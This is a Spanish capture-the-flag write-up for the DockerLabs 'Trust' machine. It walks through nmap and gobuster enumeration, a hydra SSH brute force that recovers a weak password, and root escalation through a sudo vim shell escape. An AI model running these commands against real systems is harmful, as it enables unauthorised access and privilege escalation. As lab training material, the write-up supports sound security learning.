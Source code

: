 Máquina: [Trust](https://dockerlabs.es/#/#Trust), from DockerLabs

## 1) Me anoto la IP que es fundamental para saber a quien atacar

## 2) nmap para identificar posibles puertos abiertos
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Cada parámetro:

`-p-: quiero explorar los 65535 puertos pues no se cual puede estar abierto`\
`--open: sólo me importan los abiertos, ni cerrados ni filtrados`\
`-sS: quiero que haga stealth scanning, es un escaneo silencioso que no completa el 3 way handshake`\
`-vvv: que sea bien verboso, a medida que encuentra un resultado, lo escupa`\
`---min-rate XXXX: que sea veloz y no mande menos de tantos pkg por segundo`\
`-n: no quiero resolución DNS, es lento`\
`-Pn: deshabilito ICMP echo requests para ahorrar tiempo`

##3) Una vez identificados posibles puertos abiertos quiero ser más exhaustivo con el análisis de cada uno
```
nmap -p22,80 -sC -vvv 172.17.0.2
```
`-p22,80: acá pongo los puertos que me identificó como abiertos previamente`\
`-sC: el tipo de script que quiero que corra para realizar un escaneo, es el default, scripts en Lua. Va a brindar información sobre el host y tecnologias que usa`\

## 4) otra utilidad para conocer detalles de la IP víctima es whatweb
`whatweb 172.17.0.2`
Da información sobre el sistema operativo, la versión de Apache o lo que estuviese corriendo, y más.

## 5) Ahora voy a hacer fuzzing para investigar qué endpoints hay
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt
```
Hago fuzzing por medio de gobuster y utilizando una lista de palabras

`dir: para utilizar el modo de enumeración de archivos/directorios `\
`-w <PATH>: la lista de palabras a utilizar para el fuzz`\
`-t X: cantidad de threads concurrentes`\
`-x php,txt el tipo de extensiones a buscar (ej. index.php, secrets.txt) `\

Encontré una página:
/secret.php --> dice "Hola Mario"

## 6) Como la página dice 'Hola Mario' y previamente con nmap descubrí que el puerto 22 (SSH) estaba abierto, pienso hacerle fuerza bruta al usuario mario/root.
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt <IP> -t 64
```
`-l <USER>: seteo el USER, el nombre de logeo`\
`-P <FILE>: cargo el archivo con contraseñas para hacer fuerza bruta`\
`-t N: cuantas tareas correr en paralelo por cada ataque`\

Encontré la contraseña del usuario mario:
user: mario | passw: chocolate

Pero necesito la del usuario root

## 7) Necesito escalar privilegios desde el user mario al user root
```
sudo -l
```
Verifico si el usuario actual tiene algún tipo de permiso especial.
Resulta que tiene permiso para correr cualquier cosa con `/usr/bin/vim`. Con lo cual si puedo correr a nivel de sudo vim, puedo aprovechar y ejecutar un comando junto con el launch de vim, por ejemplo
```
sudo /usr/bin/vim -c ':!/bin/bash'
```
Esto me va a abrir una terminal de bash en la cual seré un usuario root. Una vez que cierre esa bash me va a devolver a vim. Sin embargo acá ya termina la máquina pues logré acceder al usuario root.

## Resumen del ataque

Este método funcionó por lo siguiente:
* Los puertos de SSH y HTTP (22,80) están abiertos
* Encontramos un endpoint que advirtió del nombre de un usuario: Mario
* La password del usuario era muy simple y se le pudo hacer fuerza bruta, logrando conexión via SSH
* El usuario puede correr `/usr/bin/vim` como root

